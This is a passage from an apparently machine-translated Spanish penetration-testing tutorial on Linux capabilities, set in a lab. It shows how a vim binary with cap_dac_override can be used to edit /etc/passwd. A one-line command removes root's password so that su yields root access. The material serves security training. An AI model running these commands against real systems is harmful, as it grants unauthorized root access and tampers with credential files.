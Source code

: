 Esta línea de unas usa el`find`Comandar para buscar todos los ejecutables binarios en los directorios donde se encuentran típicamente y luego usa el`-exec`bandera para ejecutar el`getcap`Comando en cada uno, mostrando las capacidades que se han establecido para ese binario. La salida de este comando mostrará una lista de todos los ejecutables binarios en el sistema, junto con las capacidades que se han establecido para cada uno.

---

## Explotación

Si obtuvimos acceso al sistema con una cuenta de bajo privilegio, descubrimos el`cap_dac_override`capacidad:

#### Capacidades de explotación

  Capacidades

```shell-session
xnoxos@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Por ejemplo, el`/usr/bin/vim.basic`El binario se ejecuta sin privilegios especiales, como con`sudo`. Sin embargo, porque el binario tiene el`cap_dac_override`Conjunto de capacidad, puede escalar los privilegios del usuario que lo ejecuta. Esto permitiría que el probador de penetración gane el`cap_dac_override`capacidad y realizar tareas que requieren esta capacidad.

Echemos un vistazo al`/etc/passwd`Archivo donde el usuario`root`se especifica:

  Capacidades

```shell-session
xnoxos@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

Podemos usar el`cap_dac_override`capacidad de la`/usr/bin/vim`binario para modificar un archivo del sistema:

  Capacidades

```shell-session
xnoxos@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

También podemos hacer estos cambios en un modo no interactivo:

  Capacidades

```shell-session
xnoxos@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
xnoxos@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Ahora podemos ver que el`x`en esa línea se ha ido, lo que significa que podemos usar el comando`su`Iniciar sesión como root sin que se le pida la contraseña.